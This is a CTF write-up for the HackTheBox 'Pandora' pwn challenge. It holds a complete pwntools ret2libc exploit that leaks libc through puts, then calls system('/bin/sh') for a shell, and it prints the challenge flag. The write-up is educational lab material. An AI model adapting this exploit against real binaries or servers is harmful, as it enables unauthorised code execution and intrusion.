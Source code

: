 ```yaml
---
name: Pandora (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Pandora (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Pandora

## Description

> You stumbled upon one of Pandora's mythical boxes. Would you be curious enough to open it and see what's inside, or would you opt to give it to your team for analysis?

## Solution

Classic ret2libc attack. First, find the offset to RIP.

{% code overflow="wrap" %}
```bash
cyclic -l haaaaaaa
Finding cyclic pattern of 8 bytes: b'haaaaaaa' (hex: 0x6861616161616161)
Found at offset 56
```
{% endcode %}

Next, leak lib-c foothold with `puts()` then redirect execution flow to the beginning of the `box` function and this time, ret2system.

{% code overflow="wrap" %}
```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x4013a5
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './pb'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
libc = ELF('glibc/libc.so.6')

# OFfset to RIP
offset = 56

# Start program
io = start()

# POP RDI from ropper
pop_rdi = 0x40142b
ret = 0x401016

# Payload to leak libc function
payload = flat({
    offset: [
        pop_rdi,
        elf.got.puts,
        elf.plt.puts,
        elf.symbols.box
    ]
})

# Second menu option
io.sendlineafter(b'>', b'2')

# Send the payload
io.sendlineafter(b':', payload)

io.recvlines(3)  # Receive the newlines

# Retrieve got.puts address
got_puts = unpack(io.recv()[:6].ljust(8, b'\x00'))
info("leaked got_puts: %#x", got_puts)

# Subtract puts offset to get libc base
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# System(/bin/sh)
info("system_addr: %#x", libc.symbols.system)
bin_sh = next(libc.search(b'/bin/sh\x00'))
info("bin_sh: %#x", bin_sh)

# Payload to get shell
payload = flat({
    offset: [
        pop_rdi,
        bin_sh,
        ret,
        libc.symbols.system
    ]
})

# Second menu option
io.sendline(b'2')

# Send the payload
io.sendlineafter(b':', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `HTB{r3turn_2_P4nd0r4?!}`
